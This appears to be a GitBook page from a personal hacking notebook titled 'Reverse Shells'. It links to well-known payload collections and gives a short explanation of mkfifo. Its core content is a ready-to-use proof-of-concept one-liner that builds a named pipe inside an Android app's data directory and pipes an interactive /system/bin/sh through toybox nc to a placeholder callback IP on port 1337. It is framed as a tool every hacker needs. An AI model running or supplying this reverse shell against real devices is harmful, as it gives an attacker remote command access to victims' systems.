 ```yaml
---
description: 06/17/2024
cover: https://y.yarn.co/3fe0745c-8406-4773-ab65-c27b3b1190ad_text.gif
coverY: -14
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 📵 Reverse Shells

## Every Hacker Needs Good Reverse Shells to Complete the Mission...

### References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings" %}
The goat
{% endembed %}

{% embed url="https://www.revshells.com" %}
The goat II
{% endembed %}

### `mkfifo`

A solid reverse shell and somewhat mandatory one to make living-off-the-land (LOL) easier, is an `mkfifo` reverse shell which is essentially a shared memory region for one or more applications or connections simultaneously.&#x20;

`mkfifo` stands for make first-in-first-out.

**PoC:**

```
"rm /data/data/com.target.application/f;/system/bin/toybox mkfifo /data/data/com.target.application/f;cat /data/data/com.target.application/f|/system/bin/sh -i 2>&1|/system/bin/toybox nc <callback_ip_here> 1337 >/data/data/com.target.application/f"
```

### Result

<figure><img src="../../.gitbook/assets/image (208).png" alt=""><figcaption><p>Getting a callback from the victim device</p></figcaption></figure>
